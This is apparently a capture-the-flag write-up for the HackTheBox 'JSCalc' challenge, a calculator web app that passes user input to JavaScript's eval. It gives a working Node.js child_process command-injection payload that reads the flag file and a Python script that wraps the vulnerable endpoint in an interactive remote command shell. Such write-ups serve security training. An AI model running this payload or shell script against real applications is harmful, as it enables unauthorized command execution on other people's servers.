

# HackTheBox — JSCalc [Easy]

In this write-up, we will solve the **JSCalc** challenge from HackTheBox. The goal is to analyze the web application, identify its weaknesses, and use them to gain command execution in order to retrieve the flag. Along the way, we will break down each step of the exploitation process to clearly demonstrate how the vulnerability can be discovered and leveraged.

Let’s navigate to the website.



> As we see it’s a simple calculator
> 

Now let’s review The Code.


> Notice that we found an api calculate endpoint that takes our input and call a function named calculate
> 

Now let’s go review the calculate function.


> Notice that we found that the user input land in eval function
> 

Now let’s go write a payload that will get us the flag

```jsx
require('child_process').execSync('cat ../flag.txt').toString();
```


> Amazing we go the flag!
> 

Now let’s go and automate the exploitation using python script

```python
import requests
import cmd

url = "http://localhost:1337/api/calculate"

def execute_command(command: str):
    data_json = {"formula": f"require('child_process').execSync('{command}').toString();"}
    r = requests.post(url, json=data_json, verify=False)
    print(r.text)

class MyShell(cmd.Cmd):
    prompt = "command> "

    def default(self, line):
        execute_command(line)

if __name__ == "__main__":
    MyShell().cmdloop()

```


Now let’s go and run the script


🎯 Conclusion

By following the exploitation path and carefully analyzing the challenge, we were able to identify the vulnerability, execute arbitrary commands, and successfully obtain the flag. This highlights the importance of secure coding practices and the risks of improper input handling in web applications.

*Written by **SecretRemo*** ✍️

CRTE | CRTP | CRTO | eWPTX | eCPPT | eMAPT